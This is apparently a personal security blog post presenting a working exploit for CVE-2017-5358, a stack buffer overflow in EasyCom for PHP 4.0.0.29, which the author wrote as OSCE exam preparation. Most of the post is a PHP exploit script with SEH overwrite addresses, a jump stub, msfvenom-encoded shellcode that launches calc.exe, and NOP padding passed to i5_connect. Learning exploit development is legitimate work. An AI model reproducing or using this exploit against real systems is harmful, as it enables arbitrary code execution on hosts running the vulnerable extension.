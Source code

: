 ```yaml
---
title: "EasyCom For PHP 4.0.0 - Buffer Overflow Exploit"
date: 2017-11-18 22:00:00
preview: "Stack-based buffer overflows in php_Easycom5_3_0.dll in EasyCom for PHP 4.0.0.29 allows remote attackers to execute arbitrary code via the server argument to the (1) i5_connect, (2) i5_pconnect, or (3) i5_private_connect API function."
---
```


John Page (*Hyp3rlinX*) discovered a stack-based buffer overflows in EasyCom for PHP 4.0.0.29 (**CVE-2017-5358**). This security issue allows to a remote attacker to execute arbitrary code via the server argument to the API functions `i5_connect`, `i5_pconnect`, or `i5_private_connect`. All this functions are implemented inside `php_Easycom5_3_0.dll`.

I created a working exploit for fun and as my OSCE exam preparation.

## Environment
* EasycomPHP_4.0029.iC8im2.exe
* PHP 5.3.1 (cli) (built: Nov 20 2009 17:26:32)
* xampp-win32-1.7.3
* Windows XP SP2 32bit

## Exploit
```php
<?php

$nseh = "\xeb\x06\x90\x90";		# JMP ESP+6
$seh = "\x81\x04\x02\x10";		# POP POP RET - xampp\php\php5ts.dll

$jump_to_sc = "\x59\x59\x59";		# POP ECX ; POP ECX ; POP ECX
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xff\xe1"; # JMP ECX

# msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/shikata_ga_nai -f c
# size: 220 bytes
$shellcode = "\xb8\xcd\x5a\x0b\x2d\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1";
$shellcode  = $shellcode . "\x31\x31\x43\x13\x03\x43\x13\x83\xc3\xc9\xb8\xfe\xd1\x39\xbe";
$shellcode  = $shellcode . "\x01\x2a\xb9\xdf\x88\xcf\x88\xdf\xef\x84\xba\xef\x64\xc8\x36";
$shellcode  = $shellcode . "\x9b\x29\xf9\xcd\xe9\xe5\x0e\x66\x47\xd0\x21\x77\xf4\x20\x23";
$shellcode  = $shellcode . "\xfb\x07\x75\x83\xc2\xc7\x88\xc2\x03\x35\x60\x96\xdc\x31\xd7";
$shellcode  = $shellcode . "\x07\x69\x0f\xe4\xac\x21\x81\x6c\x50\xf1\xa0\x5d\xc7\x8a\xfa";
$shellcode  = $shellcode . "\x7d\xe9\x5f\x77\x34\xf1\xbc\xb2\x8e\x8a\x76\x48\x11\x5b\x47";
$shellcode  = $shellcode . "\xb1\xbe\xa2\x68\x40\xbe\xe3\x4e\xbb\xb5\x1d\xad\x46\xce\xd9";
$shellcode  = $shellcode . "\xcc\x9c\x5b\xfa\x76\x56\xfb\x26\x87\xbb\x9a\xad\x8b\x70\xe8";
$shellcode  = $shellcode . "\xea\x8f\x87\x3d\x81\xab\x0c\xc0\x46\x3a\x56\xe7\x42\x67\x0c";
$shellcode  = $shellcode . "\x86\xd3\xcd\xe3\xb7\x04\xae\x5c\x12\x4e\x42\x88\x2f\x0d\x08";
$shellcode  = $shellcode . "\x4f\xbd\x2b\x7e\x4f\xbd\x33\x2e\x38\x8c\xb8\xa1\x3f\x11\x6b";
$shellcode  = $shellcode . "\x86\xb0\x5b\x36\xae\x58\x02\xa2\xf3\x04\xb5\x18\x37\x31\x36";
$shellcode  = $shellcode . "\xa9\xc7\xc6\x26\xd8\xc2\x83\xe0\x30\xbe\x9c\x84\x36\x6d\x9c";
$shellcode  = $shellcode . "\x8c\x54\xf0\x0e\x4c\xb5\x97\xb6\xf7\xc9";

# SEH overwrite      = 1868 bytes
# payload_base       = 00C0F864
# ecx		     = 00C0FCB0
# ecx - payload_base = 1100 bytes

$nop1 = str_repeat("\x90", 1100);
$nop2 = str_repeat("\x90", 1868 - strlen($nop1) - strlen($shellcode));
$nop3 = str_repeat("\x90", 1000);

$payload = $nop1 . $shellcode . $nop2 . $nseh . $seh . $jump_to_sc . $nop3;

$conn = i5_connect($payload, "QPGMR", "PASSW") or die(i5_errormsg());

?>

```

## References
* [hyp3rlinx](http://hyp3rlinx.altervista.org/advisories/EASYCOM-PHP-API-BUFFER-OVERFLOW.txt)
* [SEH exploitation tutorial](http://www.thegreycorner.com/2010/01/seh-stack-based-windows-buffer-overflow.html)
* [exploit-db PoC](https://www.exploit-db.com/exploits/41425/)

The author is not responsible for the misuse of the information provided in this advisory.